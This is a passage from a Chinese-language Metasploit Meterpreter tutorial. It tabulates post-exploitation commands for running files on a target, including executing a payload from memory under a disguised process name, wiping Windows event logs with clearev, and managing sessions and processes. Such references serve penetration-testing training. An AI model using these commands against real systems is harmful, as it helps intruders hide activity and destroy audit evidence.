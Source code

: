 ## 3.8.**执行文件**

这里执行文件是在meterpreter 模式下执行，相当于不进入shell中进行执行，这样避免来回切换。

| 命令                                                         | 介绍                                                         |
| ------------------------------------------------------------ | ------------------------------------------------------------ |
| execute 文件                                                 | 在目标机中执行文件                                           |
| execute -H -i -f  cmd.exe                                    | 创建新进程cmd.exe，-H不可见，-i交互                          |
| execute -H -m -d notepad.exe -f payload.exe -a "-o hack.txt" | -d 在目标主机执行时显示的进程名称（用以伪装）-m 直接从内存中执行"-o hack.txt"是payload.exe的运行参数 |

## 3.9.**清除日志**

| 命令    | 介绍                                            |
| ------- | ----------------------------------------------- |
| clearev | 清除windows中的应用程序日志、系统日志、安全日志 |

 

## 3.10.**基础命令**

这里基础命令是基于在meterpreter下执行的命令，不要搞错了，这里我就不演示了，都是一些进入或者使用的命令。

| 命令               | 介绍                                               |
| ------------------ | -------------------------------------------------- |
| shell              | 进入目标机cmd shell                                |
| background         | 将当前会话放置后台                                 |
| sessions -h        | 查看帮助                                           |
| sessions -i <ID值> | 进入会话                                           |
| sessions -k <ID值> | 杀死会话                                           |
| bgrun / run        | 执行已有的模块，输入run后按两下tab，列出已有的脚本 |
| info               | 查看已有模块信息                                   |
| getuid             | 查看当前用户身份                                   |
| getprivs           | 查看当前用户具备的权限                             |
| getpid             | 获取当前进程ID(PID)                                |
| sysinfo            | 查看目标机系统信息                                 |
| irb                | 开启ruby终端                                       |
| ps                 | 查看正在运行的进程                                 |
| kill <PID值>       | 杀死指定PID进程                                    |
| idletime           | 查看目标机闲置时间                                 |
| reboot / shutdown  | 重启/关机                                          |
